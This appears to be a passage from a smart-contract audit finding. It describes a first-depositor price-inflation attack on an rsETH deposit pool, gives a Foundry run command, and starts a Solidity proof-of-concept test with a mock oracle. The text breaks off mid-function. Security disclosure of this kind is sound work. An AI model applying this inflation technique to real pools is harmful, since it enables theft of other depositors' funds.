 You can see a coded PoC below with this scenario:

1. The first depositor deposits 1 wei and mints 1 `rsETH`
    
2. Transfers 10 ether worth of tokens to the pool and the price is inflated.
    
3. Other depositors lose their deposits due to inflated price of `rsETH`.
    

### Coded PoC

**Note**: This PoC uses a mock `LRTOracle` similar to the protocol's other tests. In this mock contract, the `rsETH` price calculation is exactly the same as the code in the scope. The only difference is that the asset price is fixed at 1 ether.

Create a new file in the test folder and copy and paste the snippet to this file. The setup of this file is the same setup in the protocol's other test files.

To run it: `forge test --match-test test_InflateThePrice_And_StealFromThem -vvv`

```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity 0.8.21;

import { BaseTest } from "./BaseTest.t.sol";
import { LRTDepositPool } from "src/LRTDepositPool.sol";
import { RSETHTest, ILRTConfig, UtilLib, LRTConstants } from "./RSETHTest.t.sol";
import { ILRTDepositPool } from "src/interfaces/ILRTDepositPool.sol";
import { IRSETH } from "src/interfaces/IRSETH.sol";

import { TransparentUpgradeableProxy } from "@openzeppelin/contracts/proxy/transparent/TransparentUpgradeableProxy.sol";
import { ProxyAdmin } from "@openzeppelin/contracts/proxy/transparent/ProxyAdmin.sol";

import "forge-std/console.sol";
import "forge-std/console2.sol";


// This is a mock oracle that mimics rsETH calculation exactly the same as LRTOracle contract.
// Only difference is getAssetPrice function always returs 1e18 instead of fetching it from the Chainlink  
contract LRTOracleMock {
    ILRTConfig public lrtConfig;

    function initialize(address _lrtConfig) public {
        lrtConfig = ILRTConfig(_lrtConfig);
    }

    // This will be the underlying asset price and it will be equal to 1 ether for this test.
    function getAssetPrice(address) external view returns (uint256) {
        return 1e18;
    }

    // This is the same function in the LRTOracle Contract, the only difference is underlying asset price is always 1e18
    function getRSETHPrice() external view returns (uint256) {
        address rsETHTokenAddress = lrtConfig.rsETH();
        uint256 rsEthSupply = IRSETH(rsETHTokenAddress).totalSupply();

        if (rsEthSupply == 0) {
            return 1 ether;
        }

        uint256 totalETHInPool;
        address lrtDepositPoolAddr = lrtConfig.getContract(LRTConstants.LRT_DEPOSIT_POOL);

```
